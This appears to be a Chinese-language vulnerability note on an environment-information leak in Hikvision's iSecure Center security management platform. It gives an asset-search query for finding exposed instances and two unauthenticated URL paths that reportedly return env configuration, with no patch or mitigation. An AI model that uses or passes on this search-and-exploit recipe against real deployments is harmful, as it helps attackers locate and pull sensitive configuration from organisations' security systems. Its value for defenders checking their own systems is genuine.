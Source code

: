 # 海康威视iSecure Center综合安防管理平台 env 信息泄漏漏洞

# 一、漏洞简介
HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感信息进一步攻击。

# 二、影响版本
+ HIKVISION 综合安防管理平台

# 三、<font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/5PVxXecoDXiJN_Eu/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-751749.png)

+ 登录页面

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/5PVxXecoDXiJN_Eu/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-764837.png)

# 四、漏洞复现
```plain
/artemis-portal/artemis/env 
```

![1691858136518-4966819b-3613-4ebc-8d53-8709141c80dc.png](./img/5PVxXecoDXiJN_Eu/1691858136518-4966819b-3613-4ebc-8d53-8709141c80dc-455276.png)

```plain
/artemis/env
```

![1699978989500-f123cba1-ae00-40f3-907f-7c9e9706db80.png](./img/5PVxXecoDXiJN_Eu/1699978989500-f123cba1-ae00-40f3-907f-7c9e9706db80-476150.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/swlt25g5lx4t9rg6>